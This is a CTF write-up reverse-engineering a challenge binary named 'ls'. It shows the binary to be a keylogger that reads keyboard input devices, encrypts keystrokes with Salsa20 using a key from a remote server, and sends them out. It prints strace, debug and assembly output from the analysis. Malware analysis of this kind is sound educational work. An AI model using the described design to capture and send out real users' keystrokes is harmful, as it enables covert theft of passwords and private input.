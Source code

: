 LS
===

> we found this [binary](ls) and captured some [traffic](ls.pcap)...

## Write-up

I started off with inspecting the captured traffic which looked like a tcp connection to 188.40.18.94 sending some binary data back and forth. I couldn't really make anything from it.

So off to the binary. Looking at the main function in IDA we immediatly see two branches. 

![2 branches](screenshot1.png)

If the environment variable "HAX" exists the program executes sub_405BD0("188.40.18.94", 1024) which seems like setting up a connection to the ip also found in the pcap.
Running a quick strace we confirm that it indeed makes this connection

```bash
$ export HAX=hax
$ strace ./ls
	...
	socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) = 6
	connect(6, {sa_family=AF_INET, sin_port=htons(1024), sin_addr=inet_addr("188.40.18.94")}, 16) = 0
	...
```

During this strace I also noticed the program then just blocks and waits (using "epoll_wait") untill I pressed a key. When a key was pressed something was read and then written to the tcp socket.

Since the challenge category was malware I assumed it was some sort of keylogger which sent the keylogged data to the hacker machine at 188.40.18.94.

Next I ran an ltrace on the program in which I noticed the program also looks for the G_DEBUG environment variable which ment the program was probably spitting out some debug messages using glib. So I ran the program with G_MESSAGES_DEBUG=all:
```bash
$ G_MESSAGES_DEBUG=all ./ls
	** (process:3600): DEBUG: connected!
	** (process:3600): DEBUG: key initialized!
	** (process:3600): DEBUG: attaching '/dev/input/by-path/pci-0000:00:1d.0-usb-0:1.6.1:1.0-event-kbd'
	** (process:3600): DEBUG: attaching '/dev/input/by-path/platform-i8042-serio-0-event-kbd'
```
This pretty much confirmed my assumption of the program being a keylogger, it attaches itself to /dev/input/by-path/platform-i8042-serio-0-event-kbd from which my keyboard input events can be read.

The program also mentions something about a key being initialized after the tcp connection being made. I went to look for this string in ida which was at subroutine sub_4055E0. 

This subroutine basically does two things:
First it sets up the tcp connection to 188.40.18.94:1024. Next it reads 32 bytes from this connection and uses them as the "key".

My first thought here was that the key was probably used to encrypt the traffic to the server. 

Next I took the following steps:
- Load the program in GDB and put a breakpoint where the key is being initialized
- Find out the address of the key (buf in the screenshot below). 
- Put a read watchpoint (rwatch *buf in gdb) on this address to find out where the key is being used

![screenshot2](screenshot2.png)

The key was being used in at address 0x43afb1 which was part of the subroutine sub_43AEA0 so I assumed this was the encryption method. 

After looking at this method I was ready to give up. The method is a giant clutter of assembly instructions. 

However I kept digging trough it with gdb and noticed the r8 registered contained the "2-by" string which was rater interesting. I traced this back to 0x43B00E which had the following instructions:
```
mov     rdx, 61707865h
mov     rcx, 3320646Eh
mov     r8, 79622D32h
mov     rax, 6B206574h
```

The string "expand 32-byte k" was being loaded in those 4 registers. A quick google search learnt me that this string was used in the Salsa20 encryption library. [http://cr.yp.to/snuffle/salsa20/merged/salsa20.c](http://cr.yp.to/snuffle/salsa20/merged/salsa20.c)
I also find this great [python salsa20 library](https://github.com/keybase/python-salsa20) which we'll use later.

So putting this together I assumed the program flow was as follows:
- Make a connection to 188.40.18.94:1024
- Capture all key events and encrypt them using salsa20 with a key received by the server
- Send the encrypted events to the server

